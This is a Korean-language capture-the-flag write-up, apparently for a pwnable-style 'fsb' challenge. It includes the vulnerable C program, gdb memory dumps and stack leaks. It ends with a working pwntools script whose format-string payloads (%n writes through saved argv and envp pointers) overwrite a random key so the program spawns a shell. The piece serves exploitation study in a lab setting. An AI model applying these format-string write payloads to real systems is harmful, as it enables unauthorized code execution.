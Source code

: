 ```yaml
---
sort: 7
---
```


# fsb

home 디렉토리에 fsb.c에 소스코드가 있다.

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
        char* args[]={"/bin/sh", 0};
        int i;

        char*** pargv = &argv;
        char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        *pargv=0;
        *penvp=0;

        for(i=0; i<4; i++){
                printf("Give me some format strings(%d)\n", i+1);
                read(0, buf, 100);
                printf(buf);
        }

        printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);

        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
        return 0;
}

int main(int argc, char* argv[], char** envp){

        int fd = open("/dev/urandom", O_RDONLY);
        if( fd==-1 || read(fd, &key, 8) != 8 ){
                printf("Error, tell admin\n");
                return 0;
        }
        close(fd);

        alloca(0x12345 & key);

        fsb(argv, envp); // exploit this format string bug!
        return 0;
}
```

`/dev/urandom`을 이용해 key를 random값으로 채운 후, pw와 비교해서 똑같으면 shell을 실행시켜주는 코드이다.<br>
random값을 우리가 때려맞출 수 없기 때문에 pw를 입력하기 전에 fsb를 사용할 수 있게 해줬다.<br>
fsb로 key를 원하는 값으로 조진 후에 pw에 조진 값을 넣으면 될 것 같다.<br><br>
key길이가 8byte이기 때문에 `%hn`을 이용해 2byte씩 4번 조지면 될 것으로 여겨진다.<br>

key는 전역변수이기 때문에 data영역에 저장이 되어있을 것이고, aslr이 적용되지 않았기 때문에 고정된 주소값을 가지게 된다.<br>
main함수에 `read(fd, &key, 8)`부분을 확인하면 된다.

```
(gdb) x/gx 0x804a060
0x804a060 <key>:        0x0000000000000000
```

key의 주소는 `0x804a060`이다.<br>
fsb를 이용해서 key값을 잘 조작해서 풀면 될 것 같다.

```
   0x08048676 <+322>:   call   0x8048460 <strtoull@plt>
   0x0804867b <+327>:   mov    %eax,%edx
   0x0804867d <+329>:   sar    $0x1f,%edx
   0x08048680 <+332>:   mov    %eax,-0x30(%ebp)
   0x08048683 <+335>:   mov    %edx,-0x2c(%ebp)
```
그런데 웃긴 사실은, pw에 입력값이 온전하게 저장되는 것이 아니다.<br>
edx에 strtoull의 결과값의 상위 4byte가 들어가고 eax에 하위 4byte가 들어가는데, edx가 eax로 덮어씌워지고나선, 31번 arithmetic right shift를 한다. 즉, edx는 eax의 MSB로 채워진다는 소리이다.<br>
따라서 소스코드와는 다르게 동작하는 부분이 존재하게 되고, 결론적으로 key값의 상위 4byte는 하위 4byte의 MSB로 채워져야 한다는 소리이다.<br>
그래서 상위 4byte에는 0을 넣었고, 하위 4byte에는 대충 MSB가 0이 되도록 했다.<br>
`char*** pargv = &argv; char*** penvp = &envp;` 부분을 이용해 fsb의 함수 인자가 저장되는 위치를 알 수 있기 때문에 해당하는 부분에 key의 상위 4byte주소와 하위 4byte주소를 넣은 뒤, key를 조질것이다.<br><br>

```
Give me some format strings(1)
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
804a100 64 0 0 0 0 0 0 8048870 0 0 ffbab008 ffbacfe9 ffb9acb0 ffb9acb4 0 0 ffbaaf08 8048791 0 0 0 0 0 0

(gdb) x/4wx $ebp
0xffb9aca8:     0xffbaaf08      0x08048791      0x00000000      0x00000000
```

stack memory가 어떻게 생겼는지 알아보기위해 대충 %x 엄청 넣고 돌려봤다.<br>
ebp부분도 저렇게 출력시켜보니, 0x08048791이 return address인 것을 알 수 있다.<br>
그리고 return address의 주소는 0xffb9acac인 것을 알 수 있다.<br>
따라서 pargv와 penvp에는 0xffb9acb0과 0xffb9acb4가 저장되어있을 것이다.<br>
따라서 이것을 잘 활용하여 key를 조지면 될 듯 하다.<br>

```python
from pwn import *

p = process('/home/fsb/fsb')
p.recvline()

# 0x804a060을 fsb함수의 첫번째 argument자리에 입력하기 위해 0x804a060 byte를 출력한 후 pargv값을 이용
p.sendline('%134520928x%14$n')
p.recvline()
p.recvline()
# 0x804a064를 fsb함수의 두번째 argument자리에 입력하기 위해 0x804a064 byte를 출력한 후 penvp값을 이용
p.sendline('%134520932x%15$n')
p.recvline()
p.recvline()
# key 상위 4byte에 0 넣기
p.sendline('%21$n')
p.recvline()
p.recvline()
# key 하위 4byte에 8 넣기
p.sendline('%8x%20$n')
p.recvline()
p.recvline()
p.sendline('8')

p.interactive()
```

왠진 모르겠는데, key 상위 4byte에 0넣는 것과 key 하위 4byte에 8넣는 것의 순서를 바꾸면 segmentation fault가 뜬다.... 이 부분에 대해선 나중에 시간날 때 더 살펴봐야겠다..


```tip
## 알게 된 점

fsb
```